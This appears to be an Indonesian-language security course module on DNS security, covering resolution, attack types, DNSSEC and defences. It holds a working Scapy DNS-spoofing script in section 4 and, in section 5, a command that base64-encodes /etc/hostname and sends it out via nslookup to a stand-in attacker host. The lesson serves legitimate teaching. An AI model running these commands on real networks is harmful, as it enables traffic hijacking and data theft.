

# 🌐 Pertemuan 7: DNS Security

## Daftar Isi
1. [Pengantar DNS (Domain Name System)](#1-pengantar-dns-domain-name-system)
2. [Hierarki DNS dan Proses Resolusi](#2-hierarki-dns-dan-proses-resolusi)
3. [Kerentanan Protokol DNS](#3-kerentanan-protokol-dns)
4. [Hands-On: DNS Cache Poisoning Simulation](#4-hands-on-dns-cache-poisoning-simulation)
5. [Hands-On: DNS Exfiltration dengan Scapy](#5-hands-on-dns-exfiltration-dengan-scapy)
6. [Mengenal DNSSEC (DNS Security Extensions)](#6-mengenal-dnssec-dns-security-extensions)
7. [Deteksi dan Pencegahan](#7-deteksi-dan-pencegahan)
8. [Latihan Mandiri](#8-latihan-mandiri)

---

## 1. Pengantar DNS (Domain Name System)

DNS adalah "buku telepon" internet yang menerjemahkan nama domain (seperti `google.com`) menjadi alamat IP (seperti `142.250.190.46`). Karena DNS dirancang di masa awal internet, aspek keamanan awalnya tidak menjadi prioritas utama.

---

## 2. Hierarki DNS dan Proses Resolusi



### Proses Resolusi
1. Client bertanya ke Recursive Resolver.
2. Resolver bertanya ke Root Server.
3. Root Server mengarahkan ke TLD Server.
4. TLD Server mengarahkan ke Authoritative Server.
5. Authoritative Server memberikan jawaban IP akhir.

---

## 3. Kerentanan Protokol DNS

| Serangan               | Deskripsi                                                            |
| ---------------------- | -------------------------------------------------------------------- |
| **Cache Poisoning**    | Memberikan jawaban DNS palsu ke resolver untuk disimpan di cache.    |
| **DNS Spoofing**       | Memalsukan paket balasan DNS ke client sebelum server asli membalas. |
| **DNS Exfiltration**   | Mengirimkan data rahasia melalui query DNS (tunneling).              |
| **DDoS Amplification** | Menggunakan DNS untuk memperbesar trafik serangan DoS.               |

---

## 4. Hands-On: DNS Cache Poisoning Simulation

### 4.1 Konsep Serangan
Penyerang mencoba memasukkan entri palsu ke cache server DNS Recursive sehingga semua client yang bertanya ke server tersebut akan diarahkan ke IP penyerang.

### 4.2 Simulasi Sederhana (Spoofing)
Di lab ini, kita akan mencoba memalsukan DNS response menggunakan `Ettercap` atau Python script.

```python
# dns_spoof.py
from scapy.all import *

def dns_responder(pkt):
    if DNS in pkt and pkt[DNS].opcode == 0 and pkt[DNSQR].qname == b"target-site.com.":
        print(f"Mengalihkan {pkt[DNSQR].qname.decode()}...")
        
        # Buat paket balasan palsu
        spf_pkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)/\
                  UDP(dport=pkt[UDP].sport, sport=pkt[UDP].dport)/\
                  DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                      an=DNSRR(rrname=pkt[DNSQR].qname, ttl=10, rdata="192.168.1.100"))
        
        send(spf_pkt, verbose=0)

print("DNS Spoofer aktif...")
sniff(filter="udp port 53", prn=dns_responder)
```

---

## 5. Hands-On: DNS Exfiltration dengan Scapy

DNS Exfiltration sering digunakan oleh malware untuk mencuri data melalui port 53 yang biasanya terbuka di firewall.

### 5.1 Mekanisme
Data di-encode (misal: Base64) dan disisipkan sebagai subdomain dalam query DNS.
`data-rahasia.attacker.com` -> `ZGF0YS1yYWhhc2lh.attacker.com`

### 5.2 Simulasi Exfiltration
```bash
# Di sisi client (Korban) - Mengirim data
# Misal mencuri file /etc/hostname
DATA=$(cat /etc/hostname | base64)
nslookup $DATA.lab-attacker.local 192.168.1.100
```

```bash
# Di sisi server (Attacker) - Capture data
tcpdump -i eth0 -n udp port 53 -A | grep lab-attacker.local
```

---

## 6. Mengenal DNSSEC (DNS Security Extensions)

DNSSEC menambahkan tanda tangan digital (digital signature) pada data DNS untuk memastikan:
1. **Data Integrity**: Data tidak diubah di tengah jalan.
2. **Origin Authentication**: Data benar-benar berasal dari server yang sah.

---

## 7. Deteksi dan Pencegahan

1. **Gunakan DNSSEC**: Selalu aktifkan jika didukung pendaftar domain.
2. **Gunakan DNS over HTTPS (DoH)**: Mengenkripsi query DNS agar tidak bisa diintip atau dimanipulasi di level ISP.
3. **Konfigurasi Firewall**: Batasi query DNS keluar hanya ke server DNS yang diizinkan.
4. **Monitoring Log**: Cari anomali query DNS yang sangat panjang (potensi exfiltration).

---

## 8. Latihan Mandiri

### Latihan 1: Analisis Query DNS
Gunakan `Wireshark` untuk menangkap trafik saat Anda membuka browser. Perhatikan tipe query (A, AAAA, MX, NS) dan cara server menjawab.

### Latihan 2: Setup Bind9 Aman
Jika Anda melakukan setup DNS server sendiri, pastikan untuk membatasi rekursi hanya untuk IP internal perusahaan (ACL).
